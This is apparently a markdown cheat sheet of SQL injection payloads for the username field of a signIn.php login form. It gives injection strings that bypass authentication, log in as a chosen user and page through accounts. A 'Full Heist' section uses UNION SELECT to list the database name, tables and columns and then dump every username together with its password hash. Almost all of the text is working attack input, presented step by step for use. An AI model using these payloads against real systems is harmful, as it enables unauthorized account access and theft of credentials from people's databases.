 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '

- Auth Bypass with any skipping through

  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.

- Get first table name, using DB name obtained below

  1. username => fsdfs' UNION SELECT table_name, 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

## Full Heist

- Get number of fields returned

  1. username => fsdfs' UNION SELECT 1, 2, 3 -- '
  2. The fsdfs is just random text to make the username query fail, since fsdfs is most likely not a real username in the system
  3. Progressively increase the number of comma-separated values in the SELECT, until it doesn't fail

- Get DB name and DB user account

  1. username => fsdfs' UNION SELECT DATABASE(), user(), 1 -- '

- Get all table names, using DB name obtained above

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(table_name), 1, 2 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test' -- '
  2. Note: test is the DB name obtained above

- Get all column names

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(column_name), 1, 2 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' AND TABLE_SCHEMA='test' -- '

  2. Note: users is the table name obtained above

- Get all usernames and corresponding password hashes

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(username), GROUP_CONCAT(password_hash), 1 FROM users -- '
